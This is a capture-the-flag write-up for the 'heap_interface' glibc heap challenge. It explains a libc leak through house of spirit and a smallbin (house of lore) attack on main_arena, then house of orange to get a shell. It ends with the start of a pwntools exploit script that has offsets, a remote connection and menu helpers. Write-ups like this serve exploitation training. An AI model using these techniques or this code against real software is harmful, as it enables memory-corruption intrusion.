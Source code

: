 However, we need to leak libc, so we want the allocation to be allocated in libc. Fastbin attack is not possible, because the size is restricted to be larger than fastbin size, so what we can do is [smallbin attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/house_of_lore.c). In this way we need to fake a smallbin in libc first.

Initially I would like to use `scanf`, since this will write data in the `_IO_buf_base` field of stdin, which is in libc, but the program will get into a infinite loop as long as we input non-digit character for scanf.

Alternatively, I tried to fake such smallbin chunk in fastbin field of `main_arena`. Firstly we need to manipulate the heap and utilize [house of spirit](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c) to fake a fastbin chunk and free it into fastbin linked list table in `main_arena`. Then continue to manipulate heap to satisfy the precondition required by small bin attack. Also, I use partial rewrite to write 1 least significant byte of `bk` of victim small bin(this is very close to our faked chunk) and let the smallbin chunk's `bk` to point to our faked smallbin chunk in fastbin of `main_arena`. Then we can call `malloc` and get an address in libc, so if we put this to index 0, we can leak the libc.

After leaking libc, things become easy, use house of orange attack to getshell

exp:

```python
from pwn import *

g_local=False
context.log_level='debug'

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./heap_interface')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	FAKE_CHUNK_LSB = 0x28
	IO_STR_FINISH = 0x3c37b0
	#gdb.attach(sh)
	FAKE_CHUNK_OFF = 0x3c4b38
else:
	sh = remote("185.168.131.133", 6000)
	e = ELF("./libc-2.24.so")
	FAKE_CHUNK_LSB = 0x08
	ONE_GADGET_OFF = 0x4557a
	IO_STR_FINISH = 0x394510
	FAKE_CHUNK_OFF = 0x3c4b18

def mymalloc(size, idx):
	sh.send("1\n")
	sh.recvuntil("Enter size of chunk :")
	sh.send(str(size) + "\n")
	sh.recvuntil("Enter index :")
	sh.send(str(idx) + "\n")
	sh.recvuntil("4. Show info\n")

def myfree(idx):
	sh.send("3\n")
	sh.recvuntil("Enter index :")
	sh.send(str(idx) + "\n")
	sh.recvuntil("4. Show info\n")

def mywrite(idx, data):
	sh.send("2\n")
	sh.recvuntil("Enter index of chunk :")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Enter data :")
	sh.send(data)
	sh.recvuntil("4. Show info\n")

```